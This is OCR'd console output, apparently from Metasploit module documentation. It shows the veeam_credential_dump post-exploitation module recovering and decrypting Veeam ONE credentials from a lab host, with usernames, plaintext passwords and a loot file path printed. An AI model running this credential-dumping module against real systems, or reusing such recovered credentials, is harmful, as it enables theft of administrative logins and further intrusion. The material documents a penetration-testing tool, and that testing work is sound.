 ```
[*] 2 rows written (0 blank rows withheld)
[+] 2 unique VOM ID records recovered
[+] Recovered Credential: VeeamONE Credential
[+]     L: sa
[+]     P: AintEZB3ingGr33n
[+] Recovered Credential: VeeamONE Credential
[+]     L: CESIUM137\a.a.ron
[+]     P: 1n$uB0rdin@te&CHuRli$h
[+] Decrypted Veeam ONE Monitor Database Dump: /root/.msf4/loot/20221209090835_default_192.168.101.143_veeam_vom_dec_424908.txt
[*] Post module execution completed
msf post(windows/gather/credentials/veeam_credential_dump) >
```
